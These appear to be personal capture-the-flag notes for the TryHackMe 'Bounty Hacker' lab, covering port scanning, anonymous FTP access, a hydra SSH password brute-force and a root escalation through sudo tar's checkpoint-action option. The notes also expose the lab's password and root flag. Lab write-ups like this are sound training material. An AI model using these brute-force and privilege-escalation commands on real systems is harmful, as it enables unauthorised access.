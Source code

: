 #TryHackMe 
# Enum
## nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.28.175
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

## gobuster
/images               (Status: 301) [Size: 297] [--> http://elit/images/]
/index.html           (Status: 200) [Size: 969]
/index.html           (Status: 200) [Size: 969]

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Bounty_Hacker]
└─# ftp elit
	ftp> ls
	229 Entering Extended Passive Mode (|||40187|)
	150 Here comes the directory listing.
	-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
	-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

# Exploit
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Bounty_Hacker]
└─# hydra 10.10.87.138 -s 22 ssh -l lin -P locks.txt
	[22][ssh] host: 10.10.87.138   login: lin   password: RedDr4gonSynd1cat3

# FootHold
[lin@bountyhacker:/home$] sudo -l
	[sudo] password for lin: 
	User lin may run the following commands on bountyhacker:
	    (root) /bin/tar


# PrivEsc
[lin@bountyhacker:/home$] sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
[lin@bountyhacker:/home#] id
	uid=0(root) gid=0(root) groups=0(root)
[lin@bountyhacker:/home#] cat /root/root.txt
	THM{80UN7Y_h4cK3r}